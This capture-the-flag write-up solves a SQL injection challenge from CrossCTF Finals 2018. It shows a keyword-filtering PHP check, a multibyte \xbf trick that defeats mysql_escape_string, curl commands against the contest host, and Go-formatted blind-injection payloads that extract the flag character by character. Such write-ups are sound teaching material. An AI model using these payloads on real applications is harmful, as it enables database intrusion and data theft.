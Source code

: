 
# CrossCTF Finals 2018: RetroWeb (web)

> Not so easy SQL injection at all.
> 
> http://ctf.pwn.sg:8180
>
> Creator - quanyang (@quanyang)

## Challenge

It says it on the tin. Not so easy SQL injection. Dig straight in to the code:

```
if (preg_match('/\s/', $username) or 
	preg_match('/[\/\\\\]/', $username) or 
	preg_match('/(and|or|null|not|union|select|from|where|group|order|having|limit|into|file|case|like)/i', $username) or 
	preg_match('/(--|\/\*|=|>|<)/', $username)) 
	exit('die hax0r!');
$username = mysql_escape_string($username);
$sql = "SELECT username FROM users WHERE username like '$username';";
$result = $conn->query($sql);
```

So this thing does SQL keyword filtering and `mysql_escape_string`. Seems impossible? It's not, ask Google. Some clicks brought me to [this site's example 9](https://pentesterlab.com/exercises/web_for_pentester_II/course) with a description of how to bypass mysql_escape_string. A nice hint in that example also tells you the use of this exploit: for playing CTFs! 

So let's first try bypassing `mysql_escape_string`: 

```
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "SELECT")"
> die hax0r!
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "\xbf'NOPE")"
> Nothing returned. (this means an SQL error occurred)
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "\xbf'#")"
> Does not exist.
```

Yes! So the quote escaping is valid! We can now add additional statements behind our quote. Next step is to bypass SQL keyword filtering. 

A site that provided us with background on [bypassing SQL statement filtering](https://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/) gave us a lot of information and basics on how to write an SQL statement that bypasses the filter. Combined with the MySQL documentation, and lots of trial and error, we found out the following: 

1. You can wrap things in brackets to not need to use spaces. `OR(1)=(1)`
2. Use `&&` and `||` instead of `AND` and `OR`
3. Instead of using `UNION`, do a comparison and use the returned result to check
4. Instead of using `=`, you can use `IN`
5. Instead of strings, you can use hex characters
6. You can compare the substring of the flag by using `substr`

The guide on bypassing tells us that with all the keywords the filter blocked, we have to resort to blind SQL injection. It's where you compare a column character by character to determine if that character is contained in the column. In this case, we want to brute force every character of the flag out, given 1 bit (Exists or Does not exist) of information. 

Firstly, we need a way to check for the first character. Let's start with a simple statement. 

```
admin' OR 'C' in substr(flag,1,1)
```

Let's remove the `AND` and spaces:

```
admin'||('C')in(substr(flag,1,1))
```

We also need to remove the quotes and ignore everything else:

```
admin'||(0x43)in(substr(flag,1,1))#
```

Test it out:

```
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "admin\xbf'||((0x43)in(substr(flag,1,1)))#")"
```

Yay, we get `Exists`! The flag starts with 'C'

To extract the next character, you'd simply increase the length of the substring and the length of the hex string you're testing against, like so:

```
payload := fmt.Sprintf("username=%%BF'||(0x%x)IN(substr(flag,1,%d))#", str, len(str))
```

So, we looped through all possible characters one by one until we got the first, then the next, then the next. The flag `CROSSCTF{WHY` was slowly forming but then we realised that it was in all caps! The `IN` comparison is case-insensetive! 

Simple fix, that took us a while:

```
payload := fmt.Sprintf("username=%%BF'||(hex(0x%x))IN(hex(substr(flag,1,%d)))#", str, len(str))
```

[Complete code here](sql.go)

**It looks beautiful!**

<script src="https://asciinema.org/a/xsraeQYCb9Xya1WXB34uQYTCg.js" id="asciicast-xsraeQYCb9Xya1WXB34uQYTCg" async></script>
